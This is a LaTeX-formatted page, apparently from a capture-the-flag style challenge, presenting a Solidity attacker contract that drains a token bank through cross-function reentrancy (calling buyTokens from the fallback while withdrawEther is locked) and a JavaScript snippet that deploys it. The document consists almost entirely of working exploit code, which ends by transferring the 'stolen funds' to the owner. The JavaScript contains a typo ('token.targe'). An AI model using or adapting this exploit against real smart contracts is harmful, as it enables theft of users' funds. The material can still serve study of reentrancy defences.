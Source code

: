 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
  /**
  * @title CTUTokenBankAttacker
  * @notice Demonstrates a cross-function reentrancy exploit on CTUTokenBank.
  *         Even though 'withdrawEther' is guarded by a reentrancy lock, 'buyTokens'
  *         is wide open. The attacker calls 'withdrawEther', and during the
  *         fallback--while the lock is active--calls 'buyTokens' using the *old*
  *         balance that hasn't yet been subtracted.
  */
 contract CTUTokenBankAttacker {
     ICTUTokenBank public ctuBank;
     ICTUToken public ctuToken;
     address public owner;
     bool private alreadyCalled;
 
     constructor(address _ctuBank, address _ctuToken) {
         ctuBank = ICTUTokenBank(_ctuBank);
         ctuToken = ICTUToken(_ctuToken);
         owner = msg.sender;
         alreadyCalled = false;
     }
 
     function attack() external payable {
         require(msg.sender == owner, "Not owner");
         
         // 1) Deposit Ether into the bank
         ctuBank.depositEther{value: msg.value}();
 
         // 2) Start a withdrawal, which will send Ether back to this contract
         ctuBank.withdrawEther();
 
         // 3) Sell the CTU Tokens to the bank
         ctuToken.approve(address(ctuBank), ctuToken.balanceOf(address(this)));
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
 
         // 4) Withdraw the Ether again
         ctuBank.withdrawEther();
 
         // 5) Repeat the attack one more time
         alreadyCalled = false;
         ctuBank.depositEther{value: 5 ether}();
         ctuBank.withdrawEther();
         ctuToken.approve(address(ctuBank), 5 * 10 ** 18);
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
         ctuBank.withdrawEther();
 
         // 6) Transfer the stolen funds to the player
         payable(owner).transfer(address(this).balance);
     }

     receive () external payable {
         if (!alreadyCalled) {
             alreadyCalled = true;
             ctuBank.buyTokens();
         }
     }
 
 }
\end{lstlisting}
\end{minipage}

\noindent
JavaScript code to start the attack:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy the attack contract
const attackerContractFactory = 
  await ethers.getContractFactory("CTUTokenBankAttacker", player);
const attackerContract = 
  await attackerContractFactory.deploy(bank.target, token.targe)
// Execute the attack with 5 Ethers
await attackerContract.attack({ value: 5n * 10n ** 18n });
\end{verbatim}
\end{minipage}
\end{document}
